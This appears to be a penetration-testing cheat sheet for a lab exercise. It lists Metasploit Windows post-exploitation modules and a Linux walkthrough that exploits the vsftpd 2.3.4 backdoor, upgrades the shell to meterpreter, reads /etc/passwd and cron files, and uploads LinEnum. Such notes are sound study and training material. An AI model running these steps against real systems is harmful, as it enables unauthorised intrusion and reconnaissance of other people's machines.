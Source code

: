 	        - **Metasploit**
		        - `use post/windows/gather/win_privs`
		        - `use post/windows/gather/enum_logged_on_users`
		        - `use post/windows/gather/checkvm`
		        - `use post/windows/gather/enum_applications`
		        - `use post/windows/gather/enum_computers`
		        - `use post/windows/gather/enum_patches`
		        - `use post/windows/gather/enum_shares`
	    - Linux
	        - `nmap -sV 192.218.227.3`
	        - Exploit vsftpd
	        - `use exploit/unix/ftp/vsftpd_234_backdoor`
	        - Get shell
	        - `/bin/bash -i`
	        - Update shell session to meterpreter
	        - `sessions -u 1`
	        - `sessions 2`
	        - `getuid`
	        - `sysinfo`
	        - `shell /bin/bash -i cd /root`
	        - `hostname`
	        - `cat /etc/issue`
	        - `cat /etc/*release`
	        - `uname -a`
	        - `env`
	        - `lscpu`
	        - `free -h`
	        - `df -h`
	        - `lsblk | grep sd`
	        - `whoami`
	        - `id`
	        - `ls -al /home cat /etc/passwd`
	        - `cat /etc/passwd | grep -v /nologin`
	        - `groups root`
	        - `ifconfig`
	        - `netstat`
	        - `route`
	        - `arp`
	        - `shell /bin/bash -i`
	        - `cat /etc/networks`
	        - `cat /etc/hosts`
	        - `cat /etc/resolv.conf`
	        - `arp -a`
	        - `ps`
	        - `ps aux`
	        - `cat /etc/cron*`
	        - `crontab -l`
	        
	        **Automation**
	        
	        - [LinEnum](https://github.com/rebootuser/LinEnum)
	        - `./LinEnum.sh -s -k keyword -r report -e /tmp/ -t`
	        - Go back to meterpreter session
	        - `session 1 cd /tmp upload /root/Desktop/LinEnum.sh shell /bin/bash -i`
	        - `id`
	        - `chmod +x [LinEnum.sh](<http://linenum.sh/>) ./LinEnum.sh`
	        